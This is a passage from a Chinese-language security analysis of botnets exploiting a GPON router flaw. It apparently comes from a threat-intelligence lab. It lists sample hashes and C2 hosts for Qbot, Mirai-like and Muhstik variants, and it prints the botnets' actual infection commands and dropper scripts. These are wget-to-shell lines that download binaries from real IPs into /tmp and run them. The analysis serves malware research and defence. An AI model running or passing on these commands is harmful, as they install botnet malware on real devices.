 

### <a class="reference-link" name="sha256sum%2058.215.144.205/mips"></a>sha256sum 58.215.144.205/mips

41111f0941b323c13ca84caf1e552dc78caac713f4dc1a03fc322c1febcbd6ba 58.215.144.205/mips<br>
该样本的感染逻辑没有太大变化， CNC 与上文相同，为： 185.33.145.92:252，所以我们认为这与上文同属于 Q bot僵尸网络家族的变种。

2.3 58.215.144.205 样本（2018/05/08 版本）



### <a class="reference-link" name="sha256sum%200508/58.215.144.205/mips"></a>sha256sum 0508/58.215.144.205/mips

9590cc3c1e7a32f6221528b526212b2ad87b793b885639580c276243ec60830b 0508/58.215.144.205/mips<br>
2018/05/08，58.215.144.205/mips更新了相关的样本。通过逆向的结果看，新的样本与之前的逻辑完全不同，恶意控制者更换了控制的程序。

新的样本看起来更像是 Mirai 僵尸网络的新变种，具体的感染细节我们仍在持续跟进中。

该样本的CNC为 linuxusaarm.com:443
<li>Muhstik 僵尸网络<br>
2018/04/20，360netlab曝光了一个长期存在的僵尸网络：Muhstik僵尸网络。在本次漏洞事件中，我们也发现了大量 Muhstik僵尸网络的身影。<br>
该僵尸网络使用的感染命令如下：<br>
编号3 wget -qO – [http://162.243.211.204/gpon|sh](http://162.243.211.204/gpon%7Csh)<br>
编号4 wget -qO – [http://162.243.211.204/aio|sh](http://162.243.211.204/aio%7Csh)<br>
编号5 wget -O /tmp/par [http://162.243.211.204/mrt](http://162.243.211.204/mrt); chmod x /tmp/ping<br>
编号8 wget -qO – [http://54.39.23.28/1sh](http://54.39.23.28/1sh) | sh<br>
编号9 wget -qO – [http://104.54.236.173/gpon](http://104.54.236.173/gpon) | sh</li>
由于该僵尸网络样本众多，多条命令有多次重复感染。故我们通过下图展示各样本和各IP的联系：<br>[![](https://p2.ssl.qhimg.com/t0107eca7f868fc1ae7.png)](https://p2.ssl.qhimg.com/t0107eca7f868fc1ae7.png)

图中红点代表各IP，灰点代表感染的bash脚本，黄点代表各恶意样本，蓝点代表出现的链接，红线代表从bash脚本中下载的样本

各感染脚本如下：



### <a class="reference-link" name="cat%20104.54.236.173/gpon"></a>cat 104.54.236.173/gpon

wget -O /tmp/cron [http://162.243.211.204/cron](http://162.243.211.204/cron); chmod +x /tmp/cron; chmod 700 /tmp/cron; /tmp/cron &amp;<br>
wget -O /tmp/nsshpftp [http://162.243.211.204/nsshpftp](http://162.243.211.204/nsshpftp); chmod +x /tmp/nsshpftp; chmod 700 /tmp/nsshpftp; /tmp/nsshpftp &amp;



### <a class="reference-link" name="cat%20162.243.211.204/gpon"></a>cat 162.243.211.204/gpon

wget -O /tmp/nsshcron [http://162.243.211.204/nsshcron](http://162.243.211.204/nsshcron); chmod +x /tmp/nsshcron; chmod 700 /tmp/nsshcron; /tmp/nsshcron&amp;<br>
wget -O /tmp/nsshpftp [http://162.243.211.204/nsshpftp](http://162.243.211.204/nsshpftp); chmod +x /tmp/nsshpftp; chmod 700 /tmp/nsshpftp; /tmp/nsshpftp &amp;

